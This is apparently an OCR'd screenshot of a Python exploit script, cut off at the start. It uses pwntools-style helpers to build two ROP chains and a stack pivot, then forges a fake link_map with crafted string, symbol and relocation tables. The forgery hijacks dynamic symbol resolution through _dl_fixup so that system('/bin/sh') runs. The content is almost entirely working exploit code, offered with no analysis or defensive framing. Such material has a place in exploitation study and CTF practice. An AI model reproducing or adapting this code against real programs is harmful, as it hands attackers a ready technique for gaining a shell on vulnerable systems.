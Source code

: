 ```C
                ("st_other", ctypes.c_uint8),
                ("st_shndx", ctypes.c_uint16),
                ("st_value", ctypes.c_uint64),
                ("st_size", ctypes.c_uint64)]

#command to run in system
fakeStrTabContent = b'/bin/sh\x00'
offsetToSystem = libc.symbols['system'] - libc.symbols['read']

stackPiviotAddr = 0x2000004f00
firstWrite = 0x2000004008
fakeLinkTableAddr = firstWrite-0x8
linkLen = 0x100
strTabAddr = fakeLinkTableAddr + linkLen
strTabLen = len(fakeStrTabContent) + 0x10
symtabAddr = strTabAddr + strTabLen
strSymLen = 0x28
jmpTabAddr = symtabAddr + strSymLen

#create first ropchain to make a strack piviot to just after read for creating the fake link_map
ropPadding = cyclic_find(b'gaaa')*b'\x00'
rop1 = ropPadding + createReadRopChain(firstWrite)
send(rop1)

rop2 = ropPadding + createReadRopChain(stackPiviotAddr)

#setup fake link map with pointers to our fake .dynstr, .dynsym, .rela.plt in the right place in the link_map
fakeLinkTable  = b'A'*8*6
fakeLinkTable += p64(strTabAddr) + p64(symtabAddr) + b'B'*8*16 + p64(jmpTabAddr)

#create the strtab containg /bin/sh
DT_STRTAB = 5
fakeStrTab = (p64(DT_STRTAB) + p64(strTabAddr+0x10) + fakeStrTabContent)

#create fake dynsym
#force call of elf_ifunc_invoke
stt_gnu_ifunc = 0xa
#force going into else case
st_visibility = 0x3
DT_SYMTAB = 6
#set up sym->value to be offsetToSystem (addr of system - addr of read)
fakeSynTabContent = bytes(Elf64_Sym(0x0, stt_gnu_ifunc, stt_gnu_ifunc, 0x0, offsetToSystem, 0x0))
fakeSymTab = (p64(DT_SYMTAB) + p64(symtabAddr+0x10) + fakeSynTabContent)

DT_JMPREL = 23
ELF_MACHINE_JMP_SLOT = 0x7
#set up jmptable so that the address we write systeam address = got[read]
#not really nessesary
deltaReadSystem = elf.got['read'] - offsetToSystem
fakeJmpTabContent = bytes(Elf64_Rel(deltaReadSystem, ELF_MACHINE_JMP_SLOT))
fakeJmpTab = (p64(DT_JMPREL) + p64(jmpTabAddr+0x10) + fakeJmpTabContent)

#construct final fake link_map
fakeLinkTable = fakeLinkTable + fakeStrTab + fakeSymTab + fakeJmpTab

#send rop chain + fakeLinkTable which is writen to 0x2000004008 leaving a link_map at 0x2000004000 calling system
rop2 = rop2 + fakeLinkTable
send(rop2)

rop = ROP(elf)
rop.raw(_dl_fixup)
```